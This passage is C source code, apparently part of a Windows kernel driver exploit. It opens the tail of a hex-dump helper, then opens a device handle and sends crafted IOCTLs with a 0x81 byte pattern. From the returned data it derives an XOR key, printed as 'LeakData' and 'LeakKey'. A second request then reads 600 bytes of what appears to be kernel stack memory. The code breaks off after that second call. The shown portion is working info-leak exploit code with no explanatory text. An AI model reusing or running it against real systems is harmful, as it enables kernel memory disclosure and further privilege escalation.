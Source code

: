 ```c
                    printf("%c", c);
                } else {
                    printf(".");
                }
            }
        }
        printf("|\n");
    }
}

int main(){

    HANDLE hDevice = CreateFileW(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[X] Failed to open device. Error: %ld\n", GetLastError());
        return 1;
    }

    printf("[!] Success open device\n");

    uintptr_t inputbuf1 = 0x8181818181818181;
    size_t KEY = 0x0;
    char outputbuf1[0x8] = { 0 };
    
    DWORD bytesReturned = 0;

    BOOL result1 = DeviceIoControl(
        hDevice,
        DeVioctlCode,
        &inputbuf1,
        0x8,
        outputbuf1,
        0x8,
        &bytesReturned,
        NULL
    );

    if (result1) {
        printf("[*] IOCTL command sent successfully\n");
        printf("[!] LeakData: 0x%llx\n",inputbuf1);
        KEY = 0x8181818181818181 ^ inputbuf1;
        printf("[!] LeakKey: 0x%llx\n",KEY);

    } else {
        printf("Failed to send IOCTL command. Error: %ld\n", GetLastError());
    }

    char stack_value[600] = {0x81,0x81,0x81,0x81,0x81,0x81,0x81,0x81};
    char outputbuf2[600] = { 0 };

    BOOL result2 = DeviceIoControl(
        hDevice,
        DeVioctlCode,
        stack_value,
        0x8,
        outputbuf2,
        600,
        &bytesReturned,
        NULL
    );

```